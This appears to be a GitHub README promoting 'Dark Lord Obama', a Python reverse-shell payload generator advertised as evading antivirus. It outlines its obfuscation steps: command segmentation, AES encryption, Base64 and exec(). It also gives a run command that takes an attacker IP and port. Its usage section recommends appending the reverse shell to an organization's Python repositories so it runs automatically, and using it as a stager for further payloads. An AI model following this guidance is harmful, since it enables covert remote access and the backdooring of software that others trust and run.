 # Dark Lord Obama will now be transitioned into Google Golang

The Python 2 to 3 transition was a clusterfuck, a atomic blast of breakage. [https://lwn.net/Articles/843660/](https://lwn.net/Articles/843660/)

It pisses me off, because my code worked PERFECTLY. But now PyPi won't properly install dependencies required for this to work. Even manually installing PyCrypto will through errors [https://pypi.org/project/pycrypto/#files](https://pypi.org/project/pycrypto/#files).

And I am not a big fan of half-assed hacks to fix things that should have been supported via some sort of compatibility.

Everyone, please move on along to the successor of DarkLordObama, EXOCET-Antivirus-Evasion. [https://github.com/tanc7/EXOCET-AV-Evasion](https://github.com/tanc7/EXOCET-AV-Evasion)

Python is not IMO a programming language. It's a scripting language because it runs through a interpreter built primarily on C and various other languages.

Golang on the other hand, can be cross-compiled across multiple platforms with minimum modifications from a single codebase, usually for compatibility issues with the target operating system. But the point is, Golang WORKS.

I am planning to add inline assembly execution via Golang, which is [considered impossible](https://stackoverflow.com/questions/2951028/is-it-possible-to-include-inline-assembly-in-go-code), but watch me do it. I will do it!

![](https://xringarchery.files.wordpress.com/2019/07/obama-sith-lord.jpg)

# Dark Lord Obama - Undetectable Pythonic Payload Generator

Chang Tan Lister
Lister Unlimited Cybersecurity Solutions, LLC.
changtan@listerunlimited.com

![](https://xringarchery.files.wordpress.com/2019/07/a_undetectable_payload1.png)

DLO generates a Pythonic reverse shell that as of July 29th, 2019, is undetectable on VirusTotal. It combines multiple won't-to-be-disclosed techniques (undiscloseable in detail) including but not limited to:

1. "Command Segmentation"
2. "AES Encryption" with a 32-bit key and a 16-bit initialization vector
3. Base64 Encoding - It was a necessity
4. Inline Python exec() functions, C asm() functions (will be added soon), Java/Jython, Cython, Ctypes

# Dark Lord Obama Official Release Demo

*Please click this link for a demostration video of how to use*

<a href=https://encryptedarchives2.s3-us-west-1.amazonaws.com/darklordobamarelease.mp4>Demo Video</a>

# Suggested Uses

Currently you can, after you gain a foothold in organization

1. Run the payload standalone.
2. Replace the proof-of-concept code with a Metasploit python payload
3. Taint/corrupt Python repositories: Locate the Python code repositories of a organization during a pentest and then copy-paste the entire code and append it to the bottom of the python module, guarantee auto-execution of the reverse shell when the code runs
4. Use the payload as a stager to download additional payloads
5. Use the payload against MacOS (MacBooks, iMacs, etc). They natively run Python 2.7.1

Run it as ```python darklordobama.py <attacker IP> <attacker listening port>```

![](https://xringarchery.files.wordpress.com/2019/07/a_undetectable_payload2.png)

![](https://xringarchery.files.wordpress.com/2019/07/a_undetectable_payload5.png)

# How does it work?

# First it chops up your payload into two-character segments, "Command Segmentation)

![](https://encryptedarchives2.s3-us-west-1.amazonaws.com/Screenshot+from+2020-06-06+18-47-41.png)

# A ArrayMap is produced to allow the payload to reconstitute itself

![](https://encryptedarchives2.s3-us-west-1.amazonaws.com/Screenshot+from+2020-06-06+18-47-31.png)

# The payload is then shuffled into a list array and then encrypted with AES-128

![](https://encryptedarchives2.s3-us-west-1.amazonaws.com/Screenshot+from+2020-06-06+18-47-23.png)

# The encrypted payload is encoded in Base64 format

![](https://encryptedarchives2.s3-us-west-1.amazonaws.com/Screenshot+from+2020-06-06+18-47-14.png)


